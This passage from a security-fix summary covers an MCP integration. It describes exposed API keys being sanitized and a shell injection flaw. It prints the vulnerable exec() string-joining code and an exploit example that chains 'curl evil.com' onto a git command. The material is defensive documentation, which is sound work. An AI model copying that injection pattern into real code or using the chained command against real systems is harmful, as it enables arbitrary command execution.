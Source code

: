 # Security Fixes Summary

**Date**: 2025-10-29
**Scope**: Critical security vulnerability fixes for MCP integration and audit logging

## Overview

This changeset addresses **8 critical security vulnerabilities** identified during code review of the MCP (Model Context Protocol) integration feature. All issues have been fixed and tested.

---

## Critical Issues Fixed

### 1. ✅ Merge Conflicts Resolved - API Keys Secured

**Issue**: Git merge conflicts exposed real API keys in plaintext
**Severity**: CRITICAL
**Impact**: Anthropic, OpenAI, Google API keys + encryption key exposed

**Fix Applied**:
- Resolved merge conflicts using sanitized `.env.example` template
- Kept newer Next.js documentation link in `next-env.d.ts`
- Created `SECURITY_ALERT.md` with key revocation instructions

**Files Changed**:
- [.env.example](e:/GalaOS/GalaOS/.env.example) - Sanitized template
- [apps/web/next-env.d.ts](e:/GalaOS/GalaOS/apps/web/next-env.d.ts) - Updated docs link

**Action Required**: **Revoke exposed API keys immediately** (see SECURITY_ALERT.md)

---

### 2. ✅ Shell Injection Vulnerability Fixed

**Issue**: `exec()` with string concatenation allowed command injection
**Severity**: CRITICAL
**CVE**: Similar to CWE-78 (OS Command Injection)

**Vulnerability**:
```typescript
// BEFORE (vulnerable)
const cmd = [input.command, ...(input.args || [])].join(' ');
await execAsync(cmd);  // Shell interprets special characters
```

**Exploit Example**:
```bash
command: "git"
args: ["status", "&&", "curl", "evil.com"]
# Executes: git status && curl evil.com
```
